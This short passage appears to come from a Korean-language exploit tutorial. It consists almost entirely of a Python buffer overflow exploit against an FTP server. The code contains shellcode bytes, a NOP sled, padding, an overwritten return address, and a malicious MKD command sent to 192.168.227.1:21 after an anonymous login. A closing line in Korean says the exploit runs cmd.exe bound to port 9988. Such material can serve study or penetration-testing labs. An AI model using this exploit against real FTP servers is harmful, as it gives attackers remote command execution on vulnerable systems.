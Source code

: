         shellcode = (
            "\xdb\xd0\xbb\x36\xcc\x70\x15\xd9\x74\x24\xf4\x5a\x33\xc9\xb1"
            "\x56\x86\xc2\x04\x31\x5a\x14\x03\x5a\x22\x2e\x85\xe9\xa2\x27"
            "\x66\x12\x32\x58\xee\xf7\x03\x4a\x94\x7c\x31\x5a\xde\xd1\xb9"
            #..
        )
        buffer = "\x90"*20 + shellcode
        evil = "A"*247 + "\x6a\x34\x3f\x77" + "C"*8 + buffer + "C"*(741-len(buffer))

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('192.168.227.1', 21))

        s.recv(1024)
        s.send('USER anonymous\r\n'.encode())
        s.recv(1024)
        s.send('PASS anonymous\r\n'.encode())
        s.recv(1024)
        s.send(('MKD ' + evil + '\r\n').encode())
        s.recv(1024)
        s.send('QUIT\r\n'.encode())
        s.close()
        ```
        9988 포트에 cmd.exe를 실행하게 되는 모습을 볼 수 있다.
